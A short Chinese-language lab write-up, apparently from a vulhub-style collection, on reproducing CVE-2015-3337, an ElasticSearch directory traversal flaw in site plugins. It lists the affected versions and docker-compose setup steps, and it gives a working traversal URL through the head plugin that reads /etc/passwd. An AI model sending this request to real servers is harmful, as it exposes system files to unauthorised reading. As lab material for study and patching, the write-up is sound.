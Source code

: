 # CVE-2015-3337 ElasticSearch 目录穿越漏洞

### 一、漏洞简介

在安装了具有“site”功能的插件以后，插件目录使用../即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

### 二、漏洞影响

影响版本：1.4.5以下/1.5.2以下

### 三、复现过程

编译及运行测试环境


```
docker-compose build
docker-compose up -d
```

测试环境默认安装了一个插件：elasticsearch-head，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://url:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![](images/15890031980796.png)


**head插件**

head插件提供了elasticsearch的前端页面，访问 `http://url:9200/_plugin/head/` 即可看到，不多说了。

**参考链接**

https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/